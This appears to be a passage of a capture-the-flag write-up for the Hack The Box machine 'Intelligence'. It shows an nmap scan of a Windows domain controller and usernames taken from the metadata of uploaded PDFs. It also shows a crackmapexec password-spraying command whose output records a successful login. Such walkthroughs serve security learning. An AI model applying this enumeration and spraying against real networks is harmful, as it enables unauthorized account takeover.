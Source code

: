 ```bash
# Nmap 7.91 scan initiated Fri Jul  9 23:59:52 2021 as: nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49683,49684,49694,49706,50089, -sC -sV -oA nmap/final 10.10.10.248
Nmap scan report for 10.10.10.248
Host is up (0.056s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Intelligence
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-07-10 12:12:04Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-07-10T12:13:34+00:00; +7h12m05s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-07-10T12:13:35+00:00; +7h12m05s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-07-10T12:13:34+00:00; +7h12m05s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2021-07-10T12:13:35+00:00; +7h12m05s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49684/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
50089/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h12m04s, deviation: 0s, median: 7h12m04s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-07-10T12:12:57
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 10 00:01:30 2021 -- 1 IP address (1 host up) scanned in 97.86 seconds
```
## Web Servers
### Port 80
has a few different subdomains, all of them seem to point to the same page

There was one file (2020-12-30-upload.pdf) under the /Documents/ directory that wasn't nonsense
![[Pasted image 20210714100004.png]]
After painstakingly going through every file in the /Documents/ directory, find another interesting pdf (2020-06-04-upload.pdf)
Password is: *NewIntelligenceCorpUser9876*
![[Pasted image 20210714185515.png]]
Checking out properties for these two files, see a possible username:
![[Pasted image 20210719155813.png]]
Loop through all the upload files I found and get a list of users from the creator field:
```active directory
Anita.Roberts
~[snip]~
William.Lee
```
Use crackmapexec to try all of these usernames against the one password that was found, get a hit
```bash
-> % crackmapexec smb 10.10.10.248 -u ./users -p NewIntelligenceCorpUser9876
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Anita.Roberts:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
~[snip]~
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```
